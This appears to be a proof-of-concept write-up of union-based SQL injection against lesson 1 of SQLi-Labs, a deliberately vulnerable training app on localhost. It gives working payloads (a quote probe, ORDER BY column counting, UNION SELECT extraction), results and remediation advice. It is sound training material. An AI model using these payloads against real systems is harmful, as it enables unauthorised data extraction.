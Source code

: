 # Proof of Concept: SQL Injection in SQLi-Labs (Lesson 1)

## Overview
This report documents a successful **Union-Based SQL Injection** exploit against the first lesson of the SQLi-Labs vulnerable application. The vulnerability allows an unauthenticated attacker to retrieve sensitive database information.

## Vulnerability Details
- **Target:** SQLi-Labs (Lesson 1: GET - Error based - Single quotes - String)
- **URL:** `http://localhost:8080/Less-1/`
- **Vulnerable Parameter:** `id` (GET)
- **Database:** MySQL

## Step-by-Step Exploitation

### 1. Vulnerability Identification
The first step was to identify the vulnerability by injecting a single quote (`'`) into the `id` parameter, which caused a SQL syntax error:
http://localhost:8080/Less-1/?id=1'

**Result:** An error message was returned, confirming improper input sanitization:
`You have an error in your SQL syntax... near ''1'' LIMIT 0,1' at line 1`

### 2. Determining Column Count
Using the `ORDER BY` clause, the number of columns in the original query was determined to be **3**:

http://localhost:8080/Less-1/?id=1' ORDER BY 3 -- -

### 3. Extracting Data via UNION SELECT
A `UNION SELECT` attack was crafted to retrieve the database version and name:
http://localhost:8080/Less-1/?id=-1' UNION SELECT 1,@@version,database() -- -

### 4. Results
The application returned the following sensitive information:
- **Database Version:** `5.5.44-0ubuntu0.14.04.1`
- **Current Database:** `security`

![Proof of Exploit](./screenshots/sqli-labs-less1-proof.png)

## Impact
An attacker can use this vulnerability to:
- Extract any data from the database (e.g., usernames, passwords, other secrets).
- potentially escalate the attack to gain full control of the underlying server.

## Remediation
- Use **Prepared Statements (Parameterized Queries)**.
- Implement proper input validation and escaping.
- Apply the principle of least privilege to the database user.

---

**Exploit Author:** Ranks123  
**Date:** $(date 2025-9-12)

